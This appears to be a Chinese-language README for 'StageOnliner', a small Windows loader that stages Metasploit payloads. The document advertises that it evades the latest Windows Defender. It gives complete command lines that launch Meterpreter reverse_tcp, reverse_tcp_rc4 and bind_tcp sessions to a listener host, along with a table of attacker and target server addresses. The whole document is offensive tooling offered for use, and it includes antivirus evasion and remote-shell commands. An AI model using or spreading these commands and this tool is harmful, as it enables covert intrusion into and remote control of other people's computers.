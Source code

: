特性：

* 	兼容Metasploit所有Payload模块
* 	支持网络正向、反向、加密
* 	支持分离部署
* 	支持客户端操作系统、服务器操作系统 90%
* 	支持64位、32位操作系统
* 	体积小


![2019-09-24-21-14-47](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/6c2ea55143f9c780783297f338957aa2.png)

### 文件属性

该文件属性如下：

| 属性 | 值 |
| --- | --- |
| 体积 | 90KB |
| 免杀情况 | 最新Windows Defender |
| 兼容平台 | Windows XP + |

### 参数示例

上线reverse_tcp_rc4示例：

```
C:\windows\system32\cmd.exe /c C:\www\StageOnliner-x86.exe -p windows/meterpreter/reverse_tcp_rc4 -s LHOST=192.168.117.1,LPORT=1122,RC4PASSWORD=hello -H 192.168.117.1 -P 4474
```

上线reverse_tcp示例：
	
```
C:\windows\system32\cmd.exe /c C:\www\StageOnliner-x86.exe -p windows/meterpreter/reverse_tcp -s LHOST=192.168.117.1,LPORT=1122 -H 192.168.117.1 -P 4474
```

上线bin_tcp x64示例：

```
C:\windows\system32\cmd.exe /c C:\www\StageOnliner-x86.exe -p windows/x64/meterpreter/bind_tcp -s RHOST=192.168.117.169,LPORT=1122 -H 192.168.117.1 -P 4474
```

### 使用帮助

![2019-09-24-21-15-27](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/6c2ea55143f9c780783297f338957aa2.png)

使用方式：


| Server | IP地址 |
| ---- | ---- |
| Metasploit Server	| 192.168.117.1 |
|Stager Server |	192.168.117.1 |
| Target Server|	192.168.117.169|
|Metasploit Server	|1.1.1.1 |
